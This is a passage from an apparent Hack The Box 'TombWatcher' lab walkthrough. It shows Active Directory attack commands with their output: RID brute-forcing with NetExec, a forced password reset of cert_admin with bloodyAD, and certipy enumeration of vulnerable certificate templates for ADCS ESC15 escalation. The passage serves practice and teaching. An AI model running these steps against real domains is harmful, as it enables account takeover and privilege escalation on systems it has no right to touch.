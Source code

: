 - We can confirm that the account is retrieved with NetExec:

```bash
┌──(root㉿kali)-[/home/kali/HTB/TombWatcher]
└─# nxc smb 10.10.11.72 -u JOHN -p 'Cyb3rtr0n@123' --rid-brute | grep cert_admin        
SMB                      10.10.11.72     445    DC01             1110: TOMBWATCHER\cert_admin (SidTypeUser)
```

- Change `cert_admin`'s password:

```shell
┌──(root㉿kali)-[/home/kali/HTB/TombWatcher]
└─# bloodyAD --host 10.10.11.72 -d 'tombwatcher.htb' -u JOHN -p 'Cyb3rtr0n@123' set password cert_admin 'Cyb3rtr0n@123'
[+] Password changed successfully!
```

### Privilege Escalation: ADCS ESC15
As `cert_admin`, enumerate templates:
```bash
┌──(root㉿kali)-[/home/kali/HTB/TombWatcher]
└─# certipy-ad find -u cert_admin -p 'Cyb3rtr0n@123' -dc-ip 10.10.11.72 -vulnerable
```
![1](/assets/img/favicons/tombwatcher-htb/13.png)